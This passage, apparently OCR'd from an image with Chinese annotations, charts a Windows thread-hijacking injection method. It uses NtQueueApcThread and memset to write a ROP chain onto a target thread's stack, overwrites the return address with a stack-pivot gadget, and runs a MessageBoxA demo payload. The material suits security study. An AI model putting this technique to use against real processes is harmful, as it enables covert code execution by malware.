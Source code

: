 ```
   ├─ pop rdx; ret
   └─ ... (其他 gadgets)
    ↓
6. 构建 ROP chain（调用 MessageBoxA）
    ↓
7. 使用 NtQueueApcThread 逐字节写入栈
   for (i = 0; i < ropChainSize; i++) {
       NtQueueApcThread(hThread, ntdll!memset,
                        newStackAddr + i,
                        ropChain[i],
                        1);
   }
    ↓
8. 保存原始返回地址到新栈
   NtQueueApcThread(hThread, ntdll!memmove,
                    newStack[savedRetAddr],
                    originalRSP,
                    8);
    ↓
9. 覆盖原始返回地址为 pivot gadget
   for (i = 0; i < 8; i++) {
       NtQueueApcThread(hThread, ntdll!memset,
                        originalRSP + i,
                        pivotGadget[i],
                        1);
   }
    ↓
10. 覆盖 RSP+8 为新栈地址
    for (i = 0; i < 8; i++) {
        NtQueueApcThread(hThread, ntdll!memset,
                         originalRSP + 8 + i,
                         newStackAddr[i],
                         1);
    }
    ↓
11. ResumeThread(hThread)
    ↓
[目标线程恢复执行]
    ↓
12. 线程从当前函数返回
    ret  ; 跳转到 pivot gadget (pop rsp; ret)
    ↓
13. Stack Pivot
    pop rsp  ; RSP = newStackAddr (0x00000000001FD000)
    ret      ; 开始执行 ROP chain
    ↓
14. ROP Chain 执行
    ├─ pop rcx; 0
    ├─ pop rdx; textAddress
    ├─ pop r8; titleAddress
    ├─ MessageBoxA(...)
    └─ Stack cleanup & restore
    ↓
15. 恢复原始栈，线程继续正常执行 ✨
```
